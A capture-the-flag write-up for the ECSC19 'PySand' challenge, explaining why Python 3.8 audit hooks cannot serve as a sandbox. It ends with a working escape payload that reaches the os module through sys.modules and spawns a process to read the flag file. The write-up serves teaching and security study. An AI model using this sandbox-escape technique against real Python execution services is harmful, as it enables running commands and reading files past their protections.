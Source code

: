 # PySand (sandbox, python, audithook, sys.modules)
Python 3.8 introduced new audithook feature. You can read more about it in [PEP 578](https://www.python.org/dev/peps/pep-0578/) and [PEP 551](https://www.python.org/dev/peps/pep-0551/). The idea was to increase the ability to monitor suspicious actions taken by attackers. Both documents emphasize that this feature should not be used as prevention mechanism:

```
This proposal does not attempt to restrict functionality, but simply exposes the
fact that the functionality is being used. Particularly for intrusion scenarios,
detection is significantly more important than early prevention (as early
prevention will generally drive attackers to use an alternate, less-detectable,
approach). The availability of audit hooks alone does not change the attack surface
of Python in any way, but they enable defenders to integrate Python into their
environment in ways that are currently not possible.
```

Moreover if you are asking yourself how do we implement sandbox in python, then the answer is simple – we don't. Python [documentation](https://python-security.readthedocs.io/security.html) is very strict about this:

```
Sandbox
Don’t try to build a sandbox inside CPython. The attack surface is too large. 
Python has many introspection features, see for example the inspect module. Python also 
many convenient features which executes code on demand. Examples:

the literal string '\N{Snowman}' imports the unicodedata module
the code to log a warning might be abused to execute code
The good design is to put CPython into a sandbox, not the opposite.
```

## Back to the challenge
In the challenge we are given a simple and at first glance very restrictive sandbox totaly based on audithooks. Every action which invokes audit event is being just stoped and SecurityError is being raised. Of course the challenge creator wanted to proof that audithooks really should not be used to sandbox applications.

```python3
#!/usr/bin/env python3.8
import sys

class SecurityError(BaseException):
    pass

def audithook(name, tupla):
    raise SecurityError("Hackers not allowed. Tried to perform {}".format(name))

sys.addaudithook(audithook)
```

You can read which actions invoke audit event [here](https://docs.python.org/3/library/audit_events.html#audit-events). The list is very short and so it is obvious that it doesn't even try to log every malicious action, but just the most suspicious ones. 

So I started looking at avaible functions in [sys](https://docs.python.org/3/library/sys.html) and [os.path](https://docs.python.org/3/library/os.path.html#module-os.path) and [builtins](https://docs.python.org/3/library/functions.html#built-in-funcs) modules. But I couldn't find anything useful which doesn't invoke audit event.

But then I though of [sys.modules](https://docs.python.org/3/library/sys.html#sys.modules). When python starts up it in fact imports more modules then our program stated with the `import` statements. This is some optimization (I guess, I've never checked) mechanism. 
So lets check which modules have been loaded:

```console
$ nc ecsc19.hack.cert.pl 25011
Give me code:
print(sys.modules)
{'sys': <module 'sys' (built-in)>, 'builtins': <module 'builtins' (built-in)>, '_frozen_importlib': <module '_frozen_importlib' (frozen)>, '_imp': <module '_imp' (built-in)>, '_warnings': <module '_warnings' (built-in)>, '_frozen_importlib_external': <module '_frozen_importlib_external' (frozen)>, '_io': <module 'io' (built-in)>, 'marshal': <module 'marshal' (built-in)>, 'posix': <module 'posix' (built-in)>, '_thread': <module '_thread' (built-in)>, '_weakref': <module '_weakref' (built-in)>, 'time': <module 'time' (built-in)>, 'zipimport': <module 'zipimport' (frozen)>, '_codecs': <module '_codecs' (built-in)>, 'codecs': <module 'codecs' from '/app/Python-3.8.0b1/Lib/codecs.py'>, 'encodings.aliases': <module 'encodings.aliases' from '/app/Python-3.8.0b1/Lib/encodings/aliases.py'>, 'encodings': <module 'encodings' from '/app/Python-3.8.0b1/Lib/encodings/__init__.py'>, 'encodings.utf_8': <module 'encodings.utf_8' from '/app/Python-3.8.0b1/Lib/encodings/utf_8.py'>, '_signal': <module '_signal' (built-in)>, '__main__': <module '__main__' from '/app/sandbox.py'>, 'encodings.latin_1': <module 'encodings.latin_1' from '/app/Python-3.8.0b1/Lib/encodings/latin_1.py'>, '_abc': <module '_abc' (built-in)>, 'abc': <module 'abc' from '/app/Python-3.8.0b1/Lib/abc.py'>, 'io': <module 'io' from '/app/Python-3.8.0b1/Lib/io.py'>, '_stat': <module '_stat' (built-in)>, 'stat': <module 'stat' from '/app/Python-3.8.0b1/Lib/stat.py'>, 'genericpath': <module 'genericpath' from '/app/Python-3.8.0b1/Lib/genericpath.py'>, 'posixpath': <module 'posixpath' from '/app/Python-3.8.0b1/Lib/posixpath.py'>, 'os.path': <module 'posixpath' from '/app/Python-3.8.0b1/Lib/posixpath.py'>, '_collections_abc': <module '_collections_abc' from '/app/Python-3.8.0b1/Lib/_collections_abc.py'>, 'os': <module 'os' from '/app/Python-3.8.0b1/Lib/os.py'>, '_sitebuiltins': <module '_sitebuiltins' from '/app/Python-3.8.0b1/Lib/_sitebuiltins.py'>, 'site': <module 'site' from '/app/Python-3.8.0b1/Lib/site.py'>, '_locale': <module '_locale' (built-in)>, '_bootlocale': <module '_bootlocale' from '/app/Python-3.8.0b1/Lib/_bootlocale.py'>}
```

Nice! Definitely more then `sys`, `os.path` and `builtins`! `os` module has been imported as well!
By searching the [os](https://docs.python.org/3/library/os.html) documentation we can find many interesting functions such as `os.open`, `os.system` etc. Most of them are noisy and result in rasing audit event. However there are also function like `os.spawnlp` which we can use.

The last question is, how do we access the `os` module? If we try to call os.spawnlp we will fail. But the answer is very simple. Just reference `os` module via `sys.modules['os']`.

## POC

```console
$ nc ecsc19.hack.cert.pl 25011
Give me code:
sys.modules['os'].spawnlp(sys.modules['os'].P_WAIT, '/bin/cat', 'cat', '/app/flag.txt')
ecsc19{Aud1tButDontTrust}
```



## References:
1) https://docs.python.org/3/library/audit_events.html#audit-events
2) https://daddycocoaman.dev/posts/bypassing-python38-audit-hooks-part-1/
3) https://www.python.org/dev/peps/pep-0551/
3) https://www.python.org/dev/peps/pep-0578/